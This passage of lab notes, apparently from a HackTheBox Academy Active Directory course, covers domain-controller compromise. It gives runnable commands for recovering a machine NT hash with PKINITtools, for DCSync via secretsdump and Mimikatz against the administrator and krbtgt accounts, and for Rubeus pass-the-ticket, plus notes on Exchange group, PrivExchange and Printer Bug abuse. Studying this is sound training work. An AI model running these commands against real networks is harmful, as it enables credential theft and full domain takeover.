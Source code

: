 ##### Alternate Route
Submitting a TGS request ourselves
```shell
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```
DC Sync 
```shell
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```
#### Alternate Route 2
Request TGT and Peform PTT with DC01
```powershell
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```
Confirm ticket is in memory
```powershell
klist
```
Perform DCSync with Mimilatz
```powershell
 lsadump::dcsync /user:inlanefreight\krbtgt
```
## Misconfigurations 
### Miscellaneous Misconfigurations
#### Exchange Related group Membership 
Exchange Windows Permissions is not listed as a protected group but members are granted the ability to wrote a DACL.
Can give a user DCSync privileges
[Git Repo](https://github.com/gdedrouas/Exchange-AD-Privesc)

Organisation Management is another powerful group Effectively Domain Admins of the exchange. 
Compromising this will often lead to Domain Admin priviliges. 
Dumping creds in memory from the exchange server will likely produce lots of passwords. 

#### Priv Exchange 
Allows any Domain user with a mailbox to force the Exchange server to authenticate to any host by the client over HTTP.
Can relay LDAP and dump the domain NTDS database. 

#### Printer Bug 
Flaw in `MS-RPRN`
Force the server to authenticate any host by the client over SMB.
Can grant the account DCSync privliges. 
Use the tool [Get-SpoolStatus](http://web.archive.org/web/20200919080216/https://github.com/cube0x0/Security-Assessment)

```powershell
Import-Module .\SecurityAssessment.ps1
```
```powershell
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
